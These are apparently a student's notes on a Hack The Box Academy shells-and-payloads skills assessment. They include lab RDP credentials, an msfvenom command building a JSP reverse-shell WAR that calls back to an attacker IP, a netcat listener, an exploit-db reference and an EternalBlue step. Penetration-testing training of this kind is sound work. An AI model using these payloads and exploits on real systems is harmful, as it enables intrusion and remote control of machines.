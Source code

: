 ## Guión
El equipo de CAT5 nos ha asegurado un punto de apoyo en la red de Inlanefrieght. Nuestra responsabilidad es examinar los resultados del reconocimiento que se ejecutó, validar cualquier información que consideremos necesaria, investigar lo que se puede ver y elegir qué exploits, cargas útiles y proyectiles se utilizarán para controlar los objetivos. Una vez en la VPN o desde tu `Pwnbox`, necesitaremos `RDP`en el host de punto de apoyo y realice las acciones necesarias desde allí. A continuación encontrará las credenciales, direcciones IP y otra información que pueda ser necesaria.

## Objetivos:
- Demuestre sus conocimientos sobre cómo explotar y recibir un shell interactivo desde un `Windows host or server`.
- Demuestre sus conocimientos sobre cómo explotar y recibir un shell interactivo desde un `Linux host or server`.
- Demuestre sus conocimientos sobre cómo explotar y recibir un shell interactivo desde un `Web application`.
- Demuestra tu capacidad para identificar los `shell environment` al que tiene acceso como usuario en el host de la víctima.

## Credentials and Other Needed Info:
- IP:
- Credentials: `htb-student` / HTB_@cademy_stdnt! Can be used by RDP.
## Conectividad al punto de apoyo
```js
xfreerdp /v:<target IP> /u:htb-student /p:HTB_@cademy_stdnt!
```

#### Target Hosts
![](https://academy.hackthebox.com/storage/modules/115/challenge-map.png)

Los anfitriones 1 a 3 serán tus objetivos para este desafío de habilidades. Cada host tiene un vector único para atacar e incluso puede tener más de una ruta incorporada. Las preguntas de desafío a continuación se pueden responder explotando estos tres hosts. Obtenga acceso y enumere estos objetivos. Necesitará utilizar la PC Foothold proporcionada. La IP aparecerá cuando generes los objetivos. Intentar interactuar con los objetivos desde cualquier lugar que no sea el punto de apoyo no funcionará. Tenga en cuenta que el host de Foothold tiene acceso a la red interna de carga interna ( 172.16.1.0/23 red) por lo que es posible que desees prestar especial atención a la dirección IP que elijas al iniciar tus oyentes. 

## Connect 

```js
xfreerdp /v:10.129.158.29 /u:htb-student /p:HTB_@cademy_stdnt!
```

![[2024-06-22_09-26.png]]

- 172.16.1.11 (VICTIM IP)
- 172.16.1.5 (My IP)

![[2024-06-22_10-50.png]]

![[2024-06-22_10-55.png]]

![[2024-06-23_03-30.png]]

```js
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=4646 -f war > shell.war
```

![[2024-06-23_03-32.png]]

In my Kali
```js
nc -lvnp 2121
```

Click in /shell and activate the Payload.

--------

http://blog.inlanefreight.local
![[2024-06-23_09-03.png]]

![[2024-06-23_09-51.png]]

https://www.exploit-db.com/exploits/50064

If dont fidthe exploit in msfconsole, use `reload_all`

-----------------------

- 172.16.1.13
![[2024-06-23_10-53.png]]

![[2024-06-23_10-54.png]]

Exploit a EternalBLue with metasploit
